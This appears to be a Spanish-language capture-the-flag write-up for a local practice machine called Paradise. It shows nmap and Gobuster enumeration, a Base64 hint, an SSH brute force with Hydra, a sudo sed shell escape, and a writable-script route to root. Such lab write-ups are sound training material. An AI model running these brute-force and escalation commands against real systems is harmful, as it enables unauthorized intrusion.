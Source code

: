 # Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.
  
![Logo](Imagenes/Logo.png)

---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```

![Despliegue](Imagenes/Despliegue.jpeg)

Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```

![Ping](Imagenes/Ping.jpeg)

---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos abiertos](Imagenes/Puerto.jpeg)

Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios detectados](Imagenes/Servicios.jpeg)

---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:

![Página principal](Imagenes/Pagina.jpeg)

Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](Imagenes/Gobuster.jpeg)

Estos fueron los directorios y archivos detectados:

* `/index.html`
  ![index.html](Imagenes/indexhtml.jpeg)

* `/img`
  ![img](Imagenes/img.jpeg)

* `/login.php`
  ![login.php](Imagenes/loginphp.jpeg)

* `/galery.html`
  ![galery.html](Imagenes/galeryhtml.jpeg)

* `/booking.html`
  ![booking.html](Imagenes/booking.jpeg)

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```

![Base64 encontrado](Imagenes/base64.jpeg)

Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```

![Decodificación](Imagenes/descodificar.jpeg)

Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```

![Directorio secreto](Imagenes/estoesunsecreto.jpeg)

Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.

![Usuario lucas](Imagenes/lucas.jpeg)

---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```

![Hydra resultado](Imagenes/hydra.jpeg)

---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```

![SSH acceso](Imagenes/ssh.jpeg)

Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```

![Escalada a andy](Imagenes/escala.jpeg)

---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo editamos y luego lo ejecutamos, lo que nos otorgó acceso como root.

![Escalada final](Imagenes/escala2.jpeg)

---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
